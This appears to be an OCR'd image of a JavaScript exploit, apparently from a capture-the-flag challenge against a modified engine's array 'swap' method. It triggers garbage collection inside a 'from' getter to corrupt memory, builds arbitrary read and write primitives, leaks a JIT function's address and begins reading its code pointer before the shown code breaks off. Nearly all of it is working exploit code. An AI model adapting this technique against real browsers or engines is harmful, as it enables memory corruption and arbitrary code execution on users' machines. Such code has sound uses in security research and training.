 ```js

/* force trigger garbage collection */
function gc() {
  new ArrayBuffer(0x7fe00000);
}

function craftARB(oob, puppet, arrIdx) {
  function aar(addr) {
    oob[0] = itof(addr);
    oob.from = 0;
    oob.to = arrIdx;
    oob.swap();
    let res = btoi(puppet);
    oob.swap();
    return res;
  }
  function aaw(addr, val) {
    oob[0] = itof(addr);
    oob.from = 0;
    oob.to = arrIdx;
    oob.swap();
    itob(puppet, val);
    oob.swap();
  }
  return [aar, aaw];
}

function exp() {
  gc();
  let a = [1, 2, 3, 4, 5, 6];
  for (let i = 7; i <= 14; i++) {
    a.push(i);
  }
  // dumpValue(a);
  let padding, target, puppet;
  Object.defineProperty(a, 'from', {
    get: function() {
      gc();
      padding = [];
      target = [0x11, 0x12, 0x13];
      puppet = new Uint8Array(8);
      // dumpValue(padding);
      dumpValue(target);
      dumpValue(puppet);
      target[0] = itof(0x10000000100n);
      return 3;
    }
  });
  a.to = 4;
  a.swap();

  /* leak jit object address */
  target[1] = jit;
  target.from = 1;
  target.to = 14;
  target.swap();
  puppet[7] = 0;
  puppet[6] = 0;
  let leak = btoi(puppet);
  console.log(leak.toString(16));

  [aar, aaw] = craftARB(target, puppet, 13);
  let code = aar(aar(leak+0x28n));
```